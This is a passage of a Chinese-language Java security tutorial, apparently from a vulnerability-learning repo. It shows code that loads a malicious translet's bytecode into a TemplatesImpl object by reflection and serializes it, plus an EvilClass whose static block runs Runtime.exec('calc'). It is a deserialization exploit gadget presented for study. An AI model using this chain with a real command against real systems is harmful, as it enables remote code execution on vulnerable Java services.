 JavaClassByteUtil的代码说明可以看这里：[README.md](../Java类转字节码工具/main.md)

```java
package templates_example;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class TemplatesDemo2 {
    static String serialFileName = "templates-example2.ser";
    public static void main(String[] args) throws Exception {
        byte[] evilByte = JavaClassByteUtil.compile2Byte("C:\\Users\\15137\\Desktop\\Workspace\\vuln-learn\\src\\test\\java\\templates_example\\EvilClass.java");
        byte[][] evilByteCodes = new byte[][]{evilByte};

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EvilObj");
        Field bytecodesFiled = templatesClass.getDeclaredField("_bytecodes");
        bytecodesFiled.setAccessible(true);
        bytecodesFiled.set(templates, evilByteCodes);
        Field tfactoryFiled = templatesClass.getDeclaredField("_tfactory");
        tfactoryFiled.setAccessible(true);
        tfactoryFiled.set(templates, new TransformerFactoryImpl());
        serial(templates);
        verify();
    }
	// 这个和上边都是一样的
    public static void serial(Object obj)throws Exception{
    	......
    }

    public static void verify() throws Exception {
        ......
    }
}
```

其中EvilClass是这么写的：

```java
package templates_example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilClass extends AbstractTranslet {

    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (Exception ignore){ }
    }
    @Override
```
